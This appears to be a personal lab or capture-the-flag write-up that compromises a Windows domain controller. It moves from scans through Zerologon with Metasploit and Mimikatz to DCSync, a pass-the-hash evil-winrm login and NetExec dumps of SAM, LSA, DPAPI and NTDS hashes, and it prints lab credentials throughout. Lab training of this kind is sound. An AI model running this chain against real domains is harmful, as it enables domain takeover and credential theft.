


As usual we can start by using RUSTSCAN to check all the services alive on the TCP protocoll.

```
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2024-07-01 09:55:54Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: LAB.OFFSHORE.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 64
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 64
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: LAB.OFFSHORE.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC0.LAB.OFFSHORE.LOCAL
| Issuer: commonName=DC0.LAB.OFFSHORE.LOCAL
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-30T03:32:55
| Not valid after:  2024-12-30T03:32:55
| MD5:   0cbf:46c8:5475:46ac:d334:687d:9f7a:adf3
| SHA-1: a4f4:5546:8877:da3e:3d98:8f20:1ed1:29e9:5dfa:b3f9
| -----BEGIN CERTIFICATE-----
| MIIC8DCCAdigAwIBAgIQeJqkC/D9IIBJud9CalOFozANBgkqhkiG9w0BAQsFADAh
| MR8wHQYDVQQDExZEQzAuTEFCLk9GRlNIT1JFLkxPQ0FMMB4XDTI0MDYzMDAzMzI1
| NVoXDTI0MTIzMDAzMzI1NVowITEfMB0GA1UEAxMWREMwLkxBQi5PRkZTSE9SRS5M
| T0NBTDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAKs8dzWglD59ebT4
| +TT2uiQ42/GymEXr8qDWVHket81LrlXORZf9euup6K/WGafTTWc34O1aRCBYvBJU
| 09giH8d6XPEUCbPNEvEI1j5q4Vk9cww78M+GcF+Sk+ueLcrAupVUA4y6ACZk4+fZ
| ++cQZ20QtazbkwYIvHoJTgU7C9R69tneTaOseEFlW4zJC7AQdRaYpaLZPvyJOf84
| jofjxFKIYx+yBs/GAJuP7czznzZ/Mvw9j9Qhv5w9pkzVu2FcrcpOFEZx37SrKLIB
| MXUrWwWwfWN/G5Y8gPjWzOzgHP8EczUqs2hOUszHJbI+wwVdXrO6Kf6wwlSn+GLk
| jRRU4BkCAwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQw
| MA0GCSqGSIb3DQEBCwUAA4IBAQBlSbGPGr434Rp2veRaMQ+N3oOHmY6sQ3CvXbv8
| Y8xK+iA6rrnrroSywW2FkZncav4ZUhY+w1xX2Ox8CRN8TNdnP8l1yRcQITF6CBVr
| /nRZvHs053yIwc8WYhUxNQZaQaABA+8OiPfUghYlwlWjdw9vATWnktQv4TOqLAcj
| 2Lp7eu5Juxlc74YbfjugyGTev4kVfFgwvbyEtnE7uKUkoaOpDjgpDXGp5l3t9+4v
| RyvCspdyXZw5CPaGGi3/+2n3g6VIi3sHcLEsjAbZvcWinSsx+QrGwwbDUOMGKrF6
| XPEuMeU5cutvef5Lik8s6ysA6CceFurzl1IGfARNFxKNF/ub
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: LAB
|   NetBIOS_Domain_Name: LAB
|   NetBIOS_Computer_Name: DC0
|   DNS_Domain_Name: LAB.OFFSHORE.LOCAL
|   DNS_Computer_Name: DC0.LAB.OFFSHORE.LOCAL
|   DNS_Tree_Name: LAB.OFFSHORE.LOCAL
|   Product_Version: 10.0.17763
|_  System_Time: 2024-07-01T09:56:48+00:00
|_ssl-date: 2024-07-01T09:57:27+00:00; -59m58s from scanner time.
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49697/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49757/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/1%OT=53%CT=%CU=%PV=Y%G=N%TM=66828B96%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=10C%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 42.197 days (since Mon May 20 08:14:25 2024)
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: Host: DC0; OS: Windows; CPE: cpe:/o:microsoft:windows
```

And do the same on the first 1k(ish) ports alive on the UDP protocoll via NMAP this time.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# nmap -F -sU 172.16.1.200
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 12:19 CEST
Stats: 0:00:37 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 91.33% done; ETC: 12:20 (0:00:04 remaining)
Nmap scan report for 172.16.1.200
Host is up (0.089s latency).
Not shown: 96 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp
137/udp open  netbios-ns

Nmap done: 1 IP address (1 host up) scanned in 51.56 seconds
```

&nbsp;

# ZEROLOGON

I wanted to try the Zerologon CVE on all the DC machines since I was not trusting that all the domain have been patched(see the Joe Laptop's note) and seems like indeed this domain wasn't patched.

I guess the part that referred to "Decomission" must be this one?



And we have a success baby! This mean that the Admininstrator password have been resetted:

```
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > run
[*] Running module against 172.16.1.200

[*] 172.16.1.200: - Connecting to the endpoint mapper service...
[*] 172.16.1.200:49667 - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:172.16.1.200[49667] ...
[*] 172.16.1.200:49667 - Bound to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:172.16.1.200[49667] ...
[+] 172.16.1.200:49667 - Successfully authenticated
[+] 172.16.1.200:49667 - Successfully set the machine account (DC0$) password to: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 (empty)
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > show options
```

But it keeps failing?



&nbsp;

# Trying again

Here I got an insider tips to try this payload but this time from Mimikatz instead. https://tools.thehacker.recipes/mimikatz/modules/lsadump/zerologon

I will use DC01 as carrier for this attack.

Firstly I added the machine to the local hosts file so it can resolve the FQDN and uploaded mimikatz.exe:

```
PS C:\> ping DC0.LAB.OFFSHORE.LOCAL

Pinging DC0.LAB.OFFSHORE.LOCAL [172.16.1.200] with 32 bytes of data:
Reply from 172.16.1.200: bytes=32 time=2ms TTL=128
Reply from 172.16.1.200: bytes=32 time<1ms TTL=128
Reply from 172.16.1.200: bytes=32 time<1ms TTL=128

Ping statistics for 172.16.1.200:
    Packets: Sent = 3, Received = 3, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 2ms, Average = 0ms
```

And we can see it is vulnerarble as we expected:

```
mimikatz # lsadump::zerologon /target:DC0.LAB.OFFSHORE.LOCAL /account:DC0$
[rpc] Remote   : DC0.LAB.OFFSHORE.LOCAL
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] AuthnSvc : NONE (0)
[rpc] NULL Sess: no

Target : DC0.LAB.OFFSHORE.LOCAL
Account: DC0$
Type   : 6 (Server)
Mode   : detect

Trying to 'authenticate'...
====================================================

  NetrServerAuthenticate2: 0x00000000

* Authentication: OK -- vulnerable

mimikatz #
```

Now technically for the password reset we could also use the other tool we found out in python but for the DCSync the mimikatz.exe was the only way in unfortunately. But without further do I will perform the attack so the password can be resetted to an empty value.

```
mimikatz # lsadump::zerologon /target:DC0.LAB.OFFSHORE.LOCAL /account:DC0$ /exploit
[rpc] Remote   : DC0.LAB.OFFSHORE.LOCAL
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] AuthnSvc : NONE (0)
[rpc] NULL Sess: no

Target : DC0.LAB.OFFSHORE.LOCAL
Account: DC0$
Type   : 6 (Server)
Mode   : exploit

Trying to 'authenticate'...
=================

  NetrServerAuthenticate2: 0x00000000
  NetrServerPasswordSet2 : 0x00000000

* Authentication: OK -- vulnerable
* Set password  : OK -- may be unstable
```

Seems like it did it, now moment of truth.. it fails damn it!

```
mimikatz # lsadump::dcsync /domain:LAB.OFFSHORE.LOCAL /dc:DC0.LAB.OFFSHORE.LOCAL /user:krbtgt /authuser:DC0$ /authdomain:LAB.OFFSHORE.LOCAL /authpassword:"" /authntlm
[DC] 'LAB.OFFSHORE.LOCAL' will be the domain
[DC] 'DC0.LAB.OFFSHORE.LOCAL' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
[rpc] Username : DC0$
[rpc] Domain   : LAB.OFFSHORE.LOCAL
[rpc] Password :
ERROR kull_m_rpc_drsr_getDCBind ; RPC Exception 0x00000005 (5)
```

So here I got another tips to try to use another user for authentication aka `SRV01$` which is also another DC on the same domain.

And this did eventually the trick with firstly the reset:

```
mimikatz # lsadump::zerologon /account:srv01$ /target:dc0.lab.offshore.local /exploit /null /ntlm
[rpc] Remote   : dc0.lab.offshore.local
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] AuthnSvc : WINNT (10)
[rpc] NULL Sess: yes

Target : dc0.lab.offshore.local
Account: srv01$
Type   : 6 (Server)
Mode   : exploit

Trying to 'authenticate'...
========================================================================================================================================================================================
===============================================================================================

  NetrServerAuthenticate2: 0x00000000
  NetrServerPasswordSet2 : 0x00000000

* Authentication: OK -- vulnerable
* Set password  : OK -- may be unstable
```

And now a dump of the `Administrator@lab.offshore.local` hash:

```
mimikatz # lsadump::dcsync /domain:lab.offshore.local /dc:srv01 /user:administrator /authuser:srv01$ /authdomain:lab.offshore.local /authpassword:"" /authntlm
[DC] 'lab.offshore.local' will be the domain
[DC] 'srv01' will be the DC server
[DC] 'administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
[rpc] Username : srv01$
[rpc] Domain   : lab.offshore.local
[rpc] Password :

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/11/2020 11:44:17 PM
Object Security ID   : S-1-5-21-1829430034-4184737329-2133336930-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 
    ntlm- 0: 8f6aaf1438d78c89c4636179e3ae18ea
    ntlm- 1: 8f6aaf1438d78c89c4636179e3ae18ea
    ntlm- 2: 8f6aaf1438d78c89c4636179e3ae18ea
    lm  - 0: 80b3099065a089518519c6bf3d221d3f
    lm  - 1: 696ad6b052920b4fa2b6105ce9435b7f

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 1f7aa88c39dec79a50f7a67d91ef6677

* Primary:Kerberos-Newer-Keys *
    Default Salt : LAB.OFFSHORE.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 575c40111e33699575dd2e9b96e8fd7092ec8b894e796e7fbd86119d5f9dd215
      aes128_hmac       (4096) : d2d8c940a641020e4d4294afbf137e36
      des_cbc_md5       (4096) : d331fd4573efeff2
    OldCredentials
      aes256_hmac       (4096) : 575c40111e33699575dd2e9b96e8fd7092ec8b894e796e7fbd86119d5f9dd215
      aes128_hmac       (4096) : d2d8c940a641020e4d4294afbf137e36
      des_cbc_md5       (4096) : d331fd4573efeff2
    OlderCredentials
      aes256_hmac       (4096) : a2393817bbfa197dc16aa457462cd055007a970b390eac87d1d0f773387938e5
      aes128_hmac       (4096) : 34834528cdf9ee96f386f833a8ad9655
      des_cbc_md5       (4096) : 1afe8a70ba64169d

* Primary:Kerberos *
    Default Salt : LAB.OFFSHORE.LOCALAdministrator
    Credentials
      des_cbc_md5       : d331fd4573efeff2
    OldCredentials
      des_cbc_md5       : d331fd4573efeff2

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  a1a1462651ee3d61e5c9b269a0b31152
    02  cbb580ca4984e03ccb6812c5861c3a44
    03  1a4e752b03a57017b8795a7b37e05b53
    04  a1a1462651ee3d61e5c9b269a0b31152
    05  94ab6d50b0acdc08c39ca193821855e8
    06  a345f4995eea764406a00d8ae744779e
    07  b7a1474167289a5c771aafd25a926018
    08  489821da96992525f0cbd87772ce4f6f
    09  c14b5c785661c661ec14340906e37f94
    10  168576f840c2df232f3c5249f31cfc07
    11  489821da96992525f0cbd87772ce4f6f
    12  d9034f8be87ac4d751a110c780c6f3d8
    13  dcf98e97a550c6e2a61e6586fc4c9341
    14  e381845b684518ced05a088ccb1ad656
    15  b6792ffec71e448a815bdd044868f961
    16  cef2f0f929dfe470681dda1f34851ee1
    17  f0ac1dda178dab596daae75d56e7bb4a
    18  975d288e52077e0706351f8378117f59
    19  6f82f35bba3cf869bab7e8354c5371c9
    20  93cc244981e89fc719ee88e1128b6623
    21  570a74ba4095a1aff7d56d75774789c9
    22  ca8b2ed1cea14f115a865746a47ac9ae
    23  3638c48b10d4216dae79251561126adc
    24  9833bb50aaa1368b473ddf733ddb297f
    25  b9d58d4e57a747ccca6d486bf98567a2
    26  f9dc860d449ed7be0c570887b74e7043
    27  a4231579e68f9449fc36db4805eec935
    28  eb337a1cc3c5e96611035bacab9cd5da
    29  33269cae35a18c4b399b14cb731a6161


mimikatz #
```

&nbsp;

# POST Exploitation

Now I will login and grab more flags:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# evil-winrm -i 172.16.1.200 -u 'Administrator' -H 8f6aaf1438d78c89c4636179e3ae18ea
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

And we have the flag baby:

```
*Evil-WinRM* PS C:\Users\Administrator> cd desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> cat flag.txt
OFFSHORE{z3r0_log0n_b3_c@reful!}
*Evil-WinRM* PS C:\Users\Administrator\desktop>
```

I will dump the dpapi credentials with the clear-text credentials?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# NetExec smb 172.16.1.200 -u Administrator -H 8f6aaf1438d78c89c4636179e3ae18ea --dpapi
SMB         172.16.1.200    445    DC0              [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC0) (domain:LAB.OFFSHORE.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.1.200    445    DC0              [+] LAB.OFFSHORE.LOCAL\Administrator:8f6aaf1438d78c89c4636179e3ae18ea (Pwn3d!)
SMB         172.16.1.200    445    DC0              [+] User is Domain Administrator, exporting domain backupkey...
SMB         172.16.1.200    445    DC0              [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         172.16.1.200    445    DC0              [+] Got 10 decrypted masterkeys. Looting secrets...
SMB         172.16.1.200    445    DC0              [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{AF2873AC-B9DE-4DD7-A0ED-8BF33B64371A} - LAB\Administrator:Adm1n_to_j03s_t3st_d0main!
```

And some sam files:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# NetExec smb 172.16.1.200 -u Administrator -p 'Adm1n_to_j03s_t3st_d0main!' --sam
SMB         172.16.1.200    445    DC0              [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC0) (domain:LAB.OFFSHORE.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.1.200    445    DC0              [+] LAB.OFFSHORE.LOCAL\Administrator:Adm1n_to_j03s_t3st_d0main! (Pwn3d!)
SMB         172.16.1.200    445    DC0              [*] Dumping SAM hashes
SMB         172.16.1.200    445    DC0              Administrator:500:aad3b435b51404eeaad3b435b51404ee:797952ec54e1c3cbecafa37ff2f1bae5:::
SMB         172.16.1.200    445    DC0              Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.1.200    445    DC0              DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[11:37:09] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                       secretsdump.py:1441
SMB         172.16.1.200    445    DC0              [+] Added 3 SAM hashes to the database
```

And LSASS secrets.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# NetExec smb 172.16.1.200 -u Administrator -p 'Adm1n_to_j03s_t3st_d0main!' --lsa
SMB         172.16.1.200    445    DC0              [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC0) (domain:LAB.OFFSHORE.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.1.200    445    DC0              [+] LAB.OFFSHORE.LOCAL\Administrator:Adm1n_to_j03s_t3st_d0main! (Pwn3d!)
SMB         172.16.1.200    445    DC0              [+] Dumping LSA secrets
SMB         172.16.1.200    445    DC0              LAB\DC0$:aes256-cts-hmac-sha1-96:7cdfbd20712aa8a57bd74ae5088dbcd64dcc53a92f50debc3ac9b6866d321709
SMB         172.16.1.200    445    DC0              LAB\DC0$:aes128-cts-hmac-sha1-96:f45acdd668376e6de0f951feda6f7b30
SMB         172.16.1.200    445    DC0              LAB\DC0$:des-cbc-md5:cb293e978a7c434a
SMB         172.16.1.200    445    DC0              LAB\DC0$:plain_password_hex:3400230051002d0027002f003100750052007200520058002200470061005a002e00570043004500500059005100430033005400400064003d0033005b0073004e003e005700700073003f002f0023006a0043006e00430026006100640056003600500063003b003f00780023004e004b0053005600510052002900600020005f0062006a004f005e0074005b003d004000780034004e002a00250023004100290044002e0068004400720040002800600020004e0049003c004b002e0043002b0021004a0078006c00570045006900710031002f0064005d0055005c002600210038003200690067002b0027005600
SMB         172.16.1.200    445    DC0              LAB\DC0$:aad3b435b51404eeaad3b435b51404ee:fd36b54208cd4af172535563a717a875:::
SMB         172.16.1.200    445    DC0              dpapi_machinekey:0x836190a58db353b803aaba63897fe7424ba403fa
dpapi_userkey:0x04505586f313bd7ee23600b64415690268e2e880
SMB         172.16.1.200    445    DC0              NL$KM:b5464175ed5390abcb0a4bae6e79abda25de442b221f0a7bdc5ef70bfa66a89bcb37de4efe28d8df1e992871ce8795c741271fc51755a046125e36f1993e8bdd
SMB         172.16.1.200    445    DC0              [+] Dumped 7 LSA secrets to /root/.nxc/logs/DC0_172.16.1.200_2024-07-03_113722.secrets and /root/.nxc/logs/DC0_172.16.1.200_2024-07-03_113722.cached
```

I will check the Trust domain if there are any?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# NetExec ldap 172.16.1.200 -u Administrator -p 'Adm1n_to_j03s_t3st_d0main!' -M enum_trusts
SMB         172.16.1.200    445    DC0              [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC0) (domain:LAB.OFFSHORE.LOCAL) (signing:True) (SMBv1:False)
LDAP        172.16.1.200    389    DC0              [+] LAB.OFFSHORE.LOCAL\Administrator:Adm1n_to_j03s_t3st_d0main! (Pwn3d!)
ENUM_TRUSTS 172.16.1.200    389    DC0              [*] No trust relationships found
```

Seems like this was then only a side quest? I will also dump the password hashes from ntds.dit file:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/lab.offshore.local]
└─# NetExec smb 172.16.1.200 -u Administrator -p 'Adm1n_to_j03s_t3st_d0main!' -M ntdsutil
SMB         172.16.1.200    445    DC0              [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC0) (domain:LAB.OFFSHORE.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.1.200    445    DC0              [+] LAB.OFFSHORE.LOCAL\Administrator:Adm1n_to_j03s_t3st_d0main! (Pwn3d!)
NTDSUTIL    172.16.1.200    445    DC0              [*] Dumping ntds with ntdsutil.exe to C:\Windows\Temp\171999960
NTDSUTIL    172.16.1.200    445    DC0              Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    172.16.1.200    445    DC0              [+] NTDS.dit dumped to C:\Windows\Temp\171999960
NTDSUTIL    172.16.1.200    445    DC0              [*] Copying NTDS dump to /tmp/tmp_1if9wwl
NTDSUTIL    172.16.1.200    445    DC0              [*] NTDS dump copied to /tmp/tmp_1if9wwl
NTDSUTIL    172.16.1.200    445    DC0              [+] Deleted C:\Windows\Temp\171999960 remote dump directory
NTDSUTIL    172.16.1.200    445    DC0              [+] Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    172.16.1.200    445    DC0              Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f6aaf1438d78c89c4636179e3ae18ea:::
NTDSUTIL    172.16.1.200    445    DC0              Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    172.16.1.200    445    DC0              DC0$:1000:aad3b435b51404eeaad3b435b51404ee:07afa7a376663378e96851e1ad447512:::
NTDSUTIL    172.16.1.200    445    DC0              krbtgt:502:aad3b435b51404eeaad3b435b51404ee:30ac45b0c7b323178bca5ef51bd2216e:::
NTDSUTIL    172.16.1.200    445    DC0              joe:1103:aad3b435b51404eeaad3b435b51404ee:4568151a41ac1b353f40f4dc7f90f19d:::
NTDSUTIL    172.16.1.200    445    DC0              joe_adm:1104:aad3b435b51404eeaad3b435b51404ee:027bd5f86a054db22021a73c06fbd8ea:::
NTDSUTIL    172.16.1.200    445    DC0              JOE-LPTP$:1601:aad3b435b51404eeaad3b435b51404ee:7e6845ba911013cc920b9925324f93ea:::
NTDSUTIL    172.16.1.200    445    DC0              SRV01$:1602:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    172.16.1.200    445    DC0              [+] Dumped 8 NTDS hashes to /root/.nxc/logs/DC0_172.16.1.200_2024-07-03_114000.ntds of which 5 were added to the database
NTDSUTIL    172.16.1.200    445    DC0              [*] To extract only enabled accounts from the output file, run the following command: 
NTDSUTIL    172.16.1.200    445    DC0              [*] grep -iv disabled /root/.nxc/logs/DC0_172.16.1.200_2024-07-03_114000.ntds | cut -d ':' -f1
```

I don't see much so i guess we can wrap it up.

&nbsp;

&nbsp;

&nbsp;